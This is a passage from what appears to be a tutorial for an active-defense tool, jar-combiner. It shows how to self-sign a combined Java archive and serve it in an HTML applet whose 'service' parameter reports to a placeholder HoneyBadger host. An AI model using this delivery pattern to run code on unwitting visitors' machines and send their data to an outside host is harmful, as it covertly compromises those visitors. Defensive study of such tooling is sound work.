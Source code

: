 Example 3: Signing Finished.jar
-------------------------------

Signing your newly created jar file is no big deal.

First create a keystore.
`/opt/jar-combiner/Linux$` **`keytool -genkey -alias signFiles -keystore mykeystore`**

        Enter keystore password:
        Re-enter new password:
        What is your first and last name?
          [Unknown]:
        What is the name of your organizational unit?
          [Unknown]:
        What is the name of your organization?
          [Unknown]:
        What is the name of your City or Locality?
          [Unknown]:
        What is the name of your State or Province?
          [Unknown]:
        What is the two-letter country code for this unit?
          [Unknown]:
        Is CN=Unknown, OU=Unknown, O=Unknown, L=Unknown, ST=Unknown, C=Unknown correct?
          [no]:  yes

        Enter key password for <signFiles>
            (RETURN if same as keystore password):

You can just hit enter for most of the options, but fill the form out if you desire.  Do make sure to type *yes* when it asks you if all the preceding information was correct or else it will loop back to the start.

Now that the keystore is created, let's sign our new jar.

`/opt/jar-combiner/Linux` **`jarsigner -keystore mykeystore -signedjar combinedandsigned.jar finished.jar signFiles`**

        Enter Passphrase for keystore:

        Warning:
        The signer certificate will expire within six months.

This will create a new jar file called `combinedandsigned.jar` from `finished.jar` that will be
signed and ready to go!

Next, let's launch the jar with the help of an html file.

Example 4: Launching Your Jar Via HTML
--------------------------------------
In order to accomplish this, we will create an html file with these contents.

    <html>
        <body>
            <applet code="Combine.class" archive="combinedandsigned.jar" width="600" height="400">
                <param name="target" value="combined_jar" />
                <param name="service" value="http://YOUR_ADHD_IP_ADDRESS/honeybadger/service.php" />
            </applet>
        </body>
    </html>
